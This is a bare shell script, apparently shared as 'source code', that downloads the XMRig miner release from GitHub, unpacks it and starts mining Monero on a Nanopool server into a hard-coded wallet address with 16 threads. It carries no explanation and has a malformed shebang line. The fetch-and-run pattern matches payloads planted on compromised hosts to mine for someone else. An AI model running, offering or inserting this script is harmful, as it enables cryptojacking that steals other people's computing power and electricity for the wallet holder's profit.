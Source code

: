 #binbash
wget https://github.com/xmrig/xmrig/releases/download/v6.18.0/xmrig-6.18.0-bionic-x64.tar.gz&&tar xvzf xmrig-6.18.0-bionic-x64.tar.gz&&cd xmrig-6.18.0/&&./xmrig -o xmr-us-east1.nanopool.org:14433 -u 82wwMQJd4hNh7efaq3hgrx7PMkuXMrjTsd4UD5of5uyFRtG8oK1tsVEXHm9Ap25ZTfR1w7oTzBGKpdmRLMG6jqGs2nWUih4.01 --tls --coin monero --threads=16
